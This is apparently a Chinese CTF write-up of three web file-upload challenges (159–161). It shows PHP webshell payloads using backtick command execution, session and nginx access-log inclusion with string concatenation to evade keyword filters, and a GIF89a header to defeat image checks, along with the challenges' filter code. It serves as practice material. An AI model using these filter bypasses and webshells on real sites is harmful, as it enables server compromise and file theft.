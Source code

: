 
## web 159 内容检测

还是可以上面用反引号命令执行马的玩法，进行上传测试，成功。

```php
<?=`tac /var/www/html/f*`?>
```

部分源码

```php
preg_match('/php|\{|\[|\;|log|\(/i', $str);
```


看upload.php源码，这回过滤了英文半角括号，禁用函数了，不过include语法结构还是可以用的，log过滤了，师傅们可以试试session包含，需要条件竞争

```php
<?=include'/tmp/sess_sessionID'>
```

## web 160 内容检测

反引号执行命令的方法行不通了，大抵被ban了，看了师傅们的做法，又学到了，本以为禁用'log'就不能文件包含了，没想到师傅们竟然拼接来实现了

```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

![log](https://the0n3.top/medias/show-upload/14.png)

查看源码,过滤了空格和反引号

```php
preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
```

## web 161 检测文件头

这题添加新的限制：文件头，给上面图片马添加了一个GIF89a的文件头，上传成功
```php
GIF89a
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

.user.ini也要加上GIF89a文件头，上传成功
![add](https://the0n3.top/medias/show-upload/15.png)

讲讲其他

这道题的部分源码

```php
if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && check($content) && getimagesize($_FILES["file"]["tmp_name"])){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
```
在第四行出现了getimagesize，看函数名就可以知道是检查图片文件大小，出题人竟然用在这里来检查是不是图片(恼)，看到文件名我跳过去了，还疑惑为什么整份源码没有检查文件头的代码
